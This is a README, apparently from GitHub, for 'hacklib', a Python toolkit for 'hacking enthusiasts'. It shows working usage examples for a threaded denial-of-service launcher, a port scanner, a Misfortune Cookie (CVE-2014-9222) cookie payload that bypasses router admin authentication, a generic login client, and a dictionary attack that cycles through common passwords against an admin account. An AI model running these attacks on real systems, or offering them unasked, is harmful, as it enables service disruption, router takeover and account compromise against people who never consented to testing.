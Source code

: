 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts. It is currently in its barebones stages.

#### Examples of Usage
-
Multi-threaded Denial of Service (DOS) Stress-Testing:
```python
import hacklib

dos = hacklib.DOSer()
# Create 50 threads to send GET requests for 30 seconds
dos.launch('http://yourwebsite.com', duration=30, threads=50)
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports with 1 second timeout. Use ps.scan(IP, port_range=n, timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', 81)
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's Assembly code for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
Universal Login for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()

htmldata = ac.login('http://yourwebsite.com/login', 'username', 'password')

# For form-based logins, returns HTML whether login works or not.
# Returns False if resulting page has the same URL as the login page
if htmldata and 'try again' not in htmldata.lower():
    print 'Login Success'

# Returns False if login fails using HTTP Basic Authentication
if htmldata:
    print 'Login Success'
```
Simple Dictionary Attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
    # For HTTP Basic Authentication logins, simply use 'if htmldata:'
```
